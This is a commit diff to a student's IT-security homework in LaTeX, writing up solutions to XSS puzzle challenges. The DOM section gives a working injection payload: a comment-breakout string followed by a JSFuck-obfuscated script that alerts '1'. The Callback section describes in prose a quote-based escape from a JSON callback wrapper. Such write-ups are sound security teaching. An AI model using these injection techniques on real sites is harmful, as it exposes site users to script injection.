

Before and after one commit to abrahammurciano/homework, a LaTeX problem sheet (3rd-Year/Intro-to-IT-Security/HW8---XSS/HW8---XSS.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
finished hw8

```diff
--- a/3rd-Year/Intro-to-IT-Security/HW8---XSS/HW8---XSS.tex
+++ b/3rd-Year/Intro-to-IT-Security/HW8---XSS/HW8---XSS.tex
@@ -94,3 +94,58 @@ When the browser attempts to render this, it first sees an image tag, with an \v
 
 So the \verb`onerror` attribute's value runs as JavaScript code since the image \verb`_.gif` was not able to load because it does not exist.
 
+\section{DOM}
+
+This time we have a function that takes a string which must contain a `\#' symbol and manipulates the DOM to create an element of whatever type was specified before the `\#', passing as a parameter whatever was after the `\#'.
+
+\begin{verbatim}
+	function escape(s) {
+	    // Slightly too lazy to make two input fields.
+	    // Pass in something like "TextNode#foo"
+	    var m = s.split(/#/);
+
+	    // Only slightly contrived at this point.
+	    var a = document.createElement('div');
+	    a.appendChild(
+	        document['create'+m[0]].apply(document, m.slice(1)));
+	    return a.innerHTML;
+	}
+\end{verbatim}
+
+Attempting to create a text node containing script tags does not work, because the call to \verb`document.createTextNode` converts all less than and greater than symbols into their HTML codes. However, creating an HTML comment and then closing the comment within the string allows the rest of the string to be treated as HTML code. Therefore the following code successfully alerts `1'.
+
+\begin{verbatim}
+	Comment#><script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+
+	!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]
+	+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[]
+	)[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[
+	]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+
+	[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])
+	[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+
+	(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[
+	])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[
+	])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]
+	)[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(!
+	[]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]
+	]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]
+	]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
+\end{verbatim}
+
+\section{Callback}
+
+In this challenge, the function takes a string which again is expected to contain a `\#' symbol. It then generates a script tag which attempts to call a function with the name given before the `\#', passing it a JavaScript object with a single property called ``userdata'' whose value is whatever was after the `\#'.
+
+\begin{verbatim}
+	function escape(s) {
+	    // Pass in "callback#userdata"
+	    var thing = s.split(/#/);
+
+	    if (!/^[a-zA-Z\[\]']*$/.test(thing[0]))
+	        return 'Invalid callback';
+	    var obj = {'userdata': thing[1] };
+	    var json = JSON.stringify(obj).replace(/</g, '\\u003c');
+	    return "<script>" + thing[0] + "(" + json +")</script>";
+	}
+\end{verbatim}
+
+What worked in this case was to give a single quote as the function name, which was allowed according to the validation performed in the function, and to start the user data with a single quote as well. This has the effect of putting the code which started the object all in a string, which left the text after the `\#' to be interpreted as JavaScript code.
```
Also changed, not shown: 3rd-Year/Intro-to-IT-Security/HW8---XSS/HW8---XSS.pdf, 3rd-Year/Intro-to-IT-Security/HW8---XSS/HW8---XSS.tex (13 more changed lines).
